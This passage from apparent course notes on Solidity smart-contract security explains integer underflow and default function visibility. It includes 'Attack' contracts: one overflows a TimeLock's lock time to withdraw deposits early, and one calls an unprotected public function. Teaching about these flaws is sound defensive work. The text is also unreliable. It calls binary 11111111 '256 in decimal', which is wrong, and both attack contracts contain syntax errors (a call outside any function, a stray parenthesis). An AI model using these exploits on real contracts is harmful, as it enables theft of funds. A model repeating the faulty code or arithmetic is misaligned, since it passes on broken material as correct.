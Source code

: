 - When calculating 0 - 1, the machine will understands
   ```
   00000000 - 11111111
   ```
   This subtraction is evaluated to `11111111` or 256 in decimal; however, -1 is expected. This is an **integer underflow** because, simply, the calculation evaluates to a value that is **less than the minimum value** `uint8` can store, 0.

```solidity
contract Attack {
	TimeLock timeLock;
	
	constructor(TimeLock _timeLock) {
		timeLock = TimeLock(_timeLock);
	}
	
	fallback() external payable {}
	
	function attack() public payable {
		timeLock.deposit{value: msg.value}();
		
		timeLock.increaseLockTime(
			// This calculation may underflow
			type(uint).max + 1 - timeLock.lockTime(address(this))
		);
	}
	timeLock.withdraw();
}
```

### Function Default Visibility

\[[back to top ↑](#main-contents)\]

See [Lecture 5, function visibility specifiers](https://github.com/COS30049/cos30049_backend/blob/main/readings/%5BSOL%5D%20Fundamentals.md#function).

- When the visibility is not specified, the **default visibility of a function is `public`**. 
- Public function can be accessed **by all parties**. This can lead to a vulnerability if a developer **forgot to set the visibility** and a malicious user is able to make unauthorized or unintended state changes.


```solidity
contract RandomContract  {
	function nFunction() {
		// perform a task
	}
}
```

```solidity
interface IRandomContract {
	function nFunction();
}

contract Attack {
	function functionIsExternalCall(address addr) external {
		IRandomContract(addr).nFunction)();
	}
	
}
```
